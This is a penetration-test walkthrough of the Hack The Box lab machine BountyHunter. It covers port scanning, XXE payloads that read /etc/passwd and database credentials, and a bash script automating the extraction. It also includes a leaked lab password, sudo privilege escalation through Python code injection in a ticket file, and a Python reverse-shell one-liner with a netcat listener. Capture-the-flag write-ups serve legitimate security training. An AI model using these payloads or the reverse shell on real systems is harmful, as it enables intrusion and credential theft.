



# PenTest-Example
### A demonstratoin walkthrough of a pen test process using HTB's B.o.u.n.t.y-H.u.n.t.e.r with some normal dead ends as an example

Basic scan of all ports 
```
nmap -p- 10.10.11.100
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports
```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.11.100
nikto -h 10.10.11.100
```
Interesting Results (NMAP): Running OpenSSH 8.2p1 and Apache httpd 2.4.41 on Ubuntu
Interesting Results (NIKTO):  OSVDB-3093: /db.php

**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.

Check out related the CVEs
```
https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html
```
```
https://www.cvedetails.com/vulnerability-list/vendor_id-97/product_id-585/Openbsd-Openssh.html
```
**Decision (NMAP):** Software is relatively current, no standout CVEs that allow remote access, so we will move on.
**Decision (NIKTO):** The OSVBD has been superceded by CVE.  Not much to work with except `php` is being used.

Fire up dirb (command line) or dirbuster (GUI) to find any unlinked files with common names.
Normally we would poke the web server while dirb or dirbuster does it thing
```
dirb http://10.10.11.100 /usr/share/dirb/wordlists/small.txt
```
```
dirbuster 
```
Interesting Results (DIRB):  The `/*.php` files and `/resources/README.txt`

**Decision:** Not much to do with the php.  The `/resources/README.txt` provides an interesting check list and *indications that this is a development box*.  

### Fire up Burpsuite and start playing with website
`Proxy` tab then click `Open Browser` enter URL `10.10.11.100` and turn `Intercept off`  
Click on the visible links in the browser to populate the `Target/SiteMap` tab

**DEAD END:**  SQL injection on the portal form.  The `README.txt` did indicate the database was not connected yet.

Interesting:  Only `/tracter_*.php` takes paramenters and the response echos the input parameters.  
The following screenshot of Burp shows the POST request data is base64 encoded XML.


###  php and xml is XXE possible? [OWASP XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

In Burp, send php request to repeater
Use CyberChef to Base64 then URL encode new POST data attempting XXE.  

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe 'yoyo ma'> ]>
<bugreport>
  <title>&xxe;</title>
  <cwe></cwe>
  <cvss></cvss>
  <reward></reward>
</bugreport>
```


Paste the encoding back into Borp.  


## Success!

Try a real attack to retrieve `/etc/passwd`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```


Only one user has a login shell available `development`  

Try a  real attack to retrieve `/db.php`  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```


The above process automated as a script

```
    #!/bin/bash
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    user=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://bountyhunter.htb/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep '/bin/bash$' | awk -F':' '{print $5}' | cut -d , -f1 | tail -n 1 | tr '[:upper:]' '[:lower:]') 
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    password1=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://bountyhunter.htb/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep -i '$dbpassword' | cut -d '"' -f 2)

    echo "Got SSH Creds ! Username= $user , Password= $password1"
```

Login with user credentials (Assuming password reuse)  
```
ssh development@10.10.11.100
```
`password = m19RoAU0hP41A1sTsq6K`


#### Get user the user flag

```
cat ~/user.txt
```

**DEAD END:** Enumerate privledges you already have on the system
```
find / -perm -4000 2>/dev/null
```
Nothing popped out to me.  Maybe try sudo?
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
 ```
#### Example ticket file root.md

```
# Skytrain Inc
## Ticket to Ride
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
```
```sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py```
root.md
Show who you are
```id```

## Get Root flag!

```cat /root/root.txt```

Optional method: Reverse shell
Start listener on attacker box
```nc -lvnp 9999```

```
set ATTACK_IP="10.10.11.100"
set ATTACK_PORT=9999
cat root.md
# Skytrain Inc 
## Ticket to abc 
__Ticket Code:__
**102+ 10 == 112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((os.environ.get("ATTACK_IP"),int(os.environ.get("ATTACK_PORT"))));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```
